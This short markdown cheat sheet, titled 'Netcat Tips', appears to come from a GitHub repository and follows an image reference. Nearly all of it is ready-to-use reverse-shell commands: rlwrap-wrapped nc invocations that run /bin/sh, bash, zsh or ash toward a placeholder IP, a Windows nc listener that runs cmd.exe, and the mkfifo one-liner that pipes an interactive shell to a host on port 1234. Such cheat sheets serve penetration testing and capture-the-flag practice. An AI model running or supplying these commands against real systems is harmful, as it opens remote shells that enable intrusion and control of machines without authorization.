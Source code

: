 # Netcat Tips

## rlwrap

We can use rlwrap to enable better movement in a nc shell:

Linux:

* rlwrap nc \[Your IP Address\] -e /bin/sh
* rlwrap nc \[Your IP Address\] -e /bin/bash
* rlwrap nc \[Your IP Address\] -e /bin/zsh
* rlwrap nc \[Your IP Address\] -e /bin/ash

Windows:

* rlwrap nc -lv \[localport\] -e cmd.exe

Linux netcat reverse shell:

* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2&gt;&1\|nc 172.21.0.0 1234 &gt;/tmp/f

